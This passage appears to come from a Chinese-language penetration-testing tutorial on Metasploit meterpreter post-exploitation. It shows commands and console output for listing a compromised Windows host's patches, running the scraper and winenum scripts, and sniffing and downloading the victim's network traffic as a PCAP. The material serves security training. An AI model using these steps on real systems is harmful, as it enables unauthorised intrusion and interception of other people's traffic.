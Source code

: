 查看主机补丁，根据补丁打：

```
meterpreter > run post/windows/gather/enum_patches

[*] Patch list saved to /root/.msf4/loot/20200918235903_default_192.168.2.142_enum_patches_713437.txt
[*] KB2533552 applied
[*] KB2534366 applied
[*] KB2562937 applied
[*] KB2999226 applied
[*] KB958488 applied
[*] KB976902 applied
[*] KB976932 applied

```

查看系统基本信息

	run scraper

搜索相关信息：

	run winenum

## 数据包捕获

抓包：

* 加载 sniffer :  `load sniffer`
* 查看网卡信息 ：  `sniffer_interface`
* 开启监听 :  `sniffer_start1`
* 导出数据包  :  `sniffer_dump 1.1cap`

解包：

* `auxiliary/sniffer/psnuffle`


```
meterpreter > load sniffer 
Loading extension sniffer...Success.
meterpreter > help
```

```
meterpreter > sniffer_interfaces 

1 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
2 - 'Intel(R) PRO/1000 MT Network Connection' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )


meterpreter > sniffer_start 2
[*] Capture started on interface 2 (50000 packet buffer)
meterpreter > sniffer_dump 2 2.cap
[*] Flushing packet capture buffer for interface 2...
[*] Flushed 5677 packets (3708568 bytes)
[*] Downloaded 014% (524288/3708568)...
[*] Downloaded 028% (1048576/3708568)...
[*] Downloaded 042% (1572864/3708568)...
[*] Downloaded 056% (2097152/3708568)...
[*] Downloaded 070% (2621440/3708568)...
[*] Downloaded 084% (3145728/3708568)...
[*] Downloaded 098% (3670016/3708568)...
[*] Downloaded 100% (3708568/3708568)...
[*] Download completed, converting to PCAP...
[*] PCAP file written to 2.cap

```
